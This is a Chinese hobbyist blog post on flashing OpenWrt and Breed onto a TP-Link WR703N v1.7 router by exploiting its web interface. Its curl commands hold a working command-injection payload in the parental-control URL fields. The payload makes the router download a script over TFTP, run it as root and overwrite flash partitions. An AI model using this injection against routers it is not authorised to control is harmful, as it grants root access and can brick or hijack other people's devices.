 ```yaml
---
layout: post
title: 给 v1.7 版本的 TL-WR403 刷 openwrt
key: 2018-03-17-wr703n-openwrt

---       
```

从硬件版本 v1.7 起, WR703N 不再支持直接通过 TP-Link 官方 Web 控制台直接刷入 OpenWrt. TP-Link 更改了 U-boot 的代码, 并且禁止了通过官方控制台刷入 OpenWrt 等非官方固件的方式. 因此唯一的刷入方式只剩下拆机后通过串口刷入. 但我们还有一种方式, 那就是通过利用 Web 服务的一些漏洞, 将我们的代码注入到路由器操作系统内并且以 root 权限执行, 从而达到刷机的目的. 刷入 OpenWrt 之后, 我们就可以自己刷入不死 U-Boot, 之后就可以随意折腾了.     
<!--more-->
## 基本流程      
准备工作 -> 编写脚本 -> 利用漏洞上传并执行 -> 脚本通过 TFTP 下载 busybox 和镜像, 执行 busybox 刷写 kernel 和 rootfs 分区 -> 利用刷入的 OpenWrt 安装 Breed -> 完成     
 
## 需要准备的文件
- 一个 TP-Link TL-WR703N 路由器，确保固件版本为 3.17.1 Build 140120 Rel.56593n
- TL-WR703N 的 openwrt 固件 [openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin](https://archive.openwrt.org/snapshots/trunk/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin)
- cURL
- TFTP 服务器 (Windows 可以使用 [tftpd32](http://tftpd32.jounin.net/tftpd32_download.html))
- busybox 1.16.1 MIPS 版 [busybox-mips](https://busybox.net/downloads/binaries/1.16.1/busybox-mips)
- Breed Bootloader [Breed 主页](http://www.right.com.cn/forum/thread-161906-1-1.html)  [breed-ar9331-r1163.bin](https://breed.hackpascal.net/EOL/breed-ar9331-r1163.bin)
- 解锁了 u-boot 分区的 OpenWrt 固件 [owrt-703n-uboot.bin](/content/files/2018/owrt-703n/owrt-703n-uboot.bin) 来自 [TP-LINK 全系列解锁 U-Boot 分区固件](http://www.right.com.cn/forum/thread-142763-1-1.html)

## 步骤
### 准备工作
1. 连接路由器的网线接口到电脑, 确认版本与本文是否一致, 并在系统设置中将路由器恢复出厂设置.     
2. 将 ```busybox-mips``` 重命名为 ```busybox    ```
3. 将电脑 IP 地址设置为静态 (本文中为 192.168.1.9)     

### 分割分区
首先, 利用 ```dd``` 将固件 bin 文件分为 kernel 和 rootfs 两个分区
```
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i1 bs=1 count=1048576

dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i2 bs=1 skip=1048576
```
得到 i1 和 i2 两个文件
### 编写 shell 脚本
创建一个名为 ```aa``` 的文件 (文件名可随意), 写入如下内容:
```
cd /tmp
tftp -gl i1 192.168.1.9
tftp -gl i2 192.168.1.9
tftp -gl busybox 192.168.1.9
chmod 755 busybox
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync
./busybox reboot -f
```
其中 192.168.1.9 为本机的 IP 地址.    
**注意:** 如果在 Windows 下, 请将编辑器的换行符设置为 Unix 格式 (LF), 或直接下载 [aa](/content/files/2018/owrt-703n/aa)

### 设置 TFTP 服务器
现在应该有四个文件: ```i1, i2, aa, busybox```. 将这四个文件放在同一个目录下, 并且启动 TFTP 服务器, 将服务根目录指向这四个文件所在的目录. 具体方法可自行搜索, 这里不再赘述.

### 利用漏洞上传 shell 并执行
```
curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=true" "http://192.168.1.1/"

curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=" --referer "http://192.168.1.1/userRpm/ParentCtrlRpm.htm" "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?ctrl_enable=1&parent_mac_addr=00-00-00-00-00-02&Page=1"

curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=" --referer "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?Modify=0&Page=1" "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?child_mac=00-00-00-00-00-01&lan_lists=888&url_comment=test&url_0=;cd%20/tmp;&url_1=;tftp%20-gl%20aa%20192.168.1.9;&url_2=;sh%20aa;&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changed=1&SelIndex=0&Page=1&rule_mode=0&Save=%B1%A3+%B4%E6"

```
执行第一二句的时候可能会报错误, 忽略即可. 第三条命令中, 如果 aa 的文件名和本机的 IP 地址与本文不同, 请自行替换掉对应的文件名 / IP.      
执行完第三条命令后, 如果成功, TFTP 服务器会显示路由器正在从服务器中下载文件, 传输完成后路由器的 LED 灯将开始闪烁. **此时千万不要断开路由器的电源, 否则就只能拆机 TTL 刷机了**      
当 LED 灯停止闪烁后, 打开 http://192.168.1.1 , 应该会看到熟悉的 OpenWrt 登陆界面
**在此时由于 U-boot 还未被替换, 恢复出厂设置会导致变砖, 切记不要恢复出厂设置**    
### 刷入 Breed 
由于原版的 OpenWrt 禁止了对 u-boot 分区的写入, 因此我们首先需要刷入解锁固件 ```owrt-703n-uboot.bin```    
通过 LucI 界面登录路由器, 在系统升级中更新固件为解锁版 OpenWrt, 注意不要勾选保存原有设置的选项.    
等待刷入完成后, 登陆管理界面并设置密码以开启 SSH.    
开启 SSH 后, 使用 WinSCP (或其他软件) 连接到路由器, 将 ```breed-ar9331-r1163.bin``` 上传到 ```/tmp``` 目录下     
然后开始刷入 breed:
```
cd /tmp

mtd -r write breed-ar9331-r1163.bin 
```
刷入完成后会自动重启, 重启完毕后将路由器断电, 按住 Reset 按钮接通电源, 等待 LED 灯开始闪烁, 松开 Reset 进入 http://192.168.1.1 , 应该就可以看到 Breed 的界面了.     
进入 Breed 后, 记得将 MAC 地址改回路由器背面所写的 MAC 地址.     
最后, 为了安全起见, 建议用 breed 重新刷回原版 OpenWrt 固件, 以防不小心写坏 U-boot 分区.    

## 参考文章
[Flashing TP-Link TL-WR703N v1.7 to OpenWrt](https://www.shadowandy.net/2015/03/flashing-tp-link-tl-wr703n-v1-7-to-openwrt.htm)      
[找到国外牛人给出的不通过TTL刷openwrt到1.7版本的703n的方法](http://www.right.com.cn/forum/forum.php?mod=viewthread&tid=159078)      
[tplink tl-wr703n v1.7最新固件 免ttl刷openwrt刷breed](http://www.right.com.cn/forum/forum.php?mod=viewthread&tid=184971)      
